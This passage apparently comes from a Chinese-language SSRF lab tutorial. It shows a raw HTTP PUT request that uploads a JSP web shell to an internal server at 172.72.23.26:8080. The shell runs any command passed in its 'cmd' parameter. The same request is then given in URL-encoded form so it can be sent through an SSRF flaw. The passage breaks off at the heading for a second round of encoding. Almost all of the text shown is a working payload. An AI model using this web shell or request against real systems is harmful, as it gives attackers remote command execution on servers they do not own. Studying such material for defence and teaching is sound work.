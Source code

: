 #### 构造PUT请求

![image-20240905144813671](https://image.201068.xyz/assets/29.SSRF/image-20240905144813671.png)

```jsp
PUT /xxx.jsp/ HTTP/1.1
Host: 172.72.23.26:8080
Content-Length: 460

<%
    String command = request.getParameter("cmd");
    if(command != null)
    {
        java.io.InputStream in=Runtime.getRuntime().exec(command).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1)
        {
            out.println(new String(b));
        }
        out.print("</pre>");
    } else {
        out.print("format: xxx.jsp?cmd=Command");
    }
%>
```

##### url编码

###### 一次url编码

```
%50%55%54%20%2f%78%78%78%2e%6a%73%70%2f%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%31%37%32%2e%37%32%2e%32%33%2e%32%36%3a%38%30%38%30%0d%0a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%34%36%30%0d%0a%0d%0a%3c%25%0d%0a%20%20%20%20%53%74%72%69%6e%67%20%63%6f%6d%6d%61%6e%64%20%3d%20%72%65%71%75%65%73%74%2e%67%65%74%50%61%72%61%6d%65%74%65%72%28%22%63%6d%64%22%29%3b%0d%0a%20%20%20%20%69%66%28%63%6f%6d%6d%61%6e%64%20%21%3d%20%6e%75%6c%6c%29%0d%0a%20%20%20%20%7b%0d%0a%20%20%20%20%20%20%20%20%6a%61%76%61%2e%69%6f%2e%49%6e%70%75%74%53%74%72%65%61%6d%20%69%6e%3d%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%63%6f%6d%6d%61%6e%64%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%3b%0d%0a%20%20%20%20%20%20%20%20%69%6e%74%20%61%20%3d%20%2d%31%3b%0d%0a%20%20%20%20%20%20%20%20%62%79%74%65%5b%5d%20%62%20%3d%20%6e%65%77%20%62%79%74%65%5b%32%30%34%38%5d%3b%0d%0a%20%20%20%20%20%20%20%20%6f%75%74%2e%70%72%69%6e%74%28%22%3c%70%72%65%3e%22%29%3b%0d%0a%20%20%20%20%20%20%20%20%77%68%69%6c%65%28%28%61%3d%69%6e%2e%72%65%61%64%28%62%29%29%21%3d%2d%31%29%0d%0a%20%20%20%20%20%20%20%20%7b%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%6f%75%74%2e%70%72%69%6e%74%6c%6e%28%6e%65%77%20%53%74%72%69%6e%67%28%62%29%29%3b%0d%0a%20%20%20%20%20%20%20%20%7d%0d%0a%20%20%20%20%20%20%20%20%6f%75%74%2e%70%72%69%6e%74%28%22%3c%2f%70%72%65%3e%22%29%3b%0d%0a%20%20%20%20%7d%20%65%6c%73%65%20%7b%0d%0a%20%20%20%20%20%20%20%20%6f%75%74%2e%70%72%69%6e%74%28%22%66%6f%72%6d%61%74%3a%20%78%78%78%2e%6a%73%70%3f%63%6d%64%3d%43%6f%6d%6d%61%6e%64%22%29%3b%0d%0a%20%20%20%20%7d%0d%0a%25%3e
```



###### 二次url编码
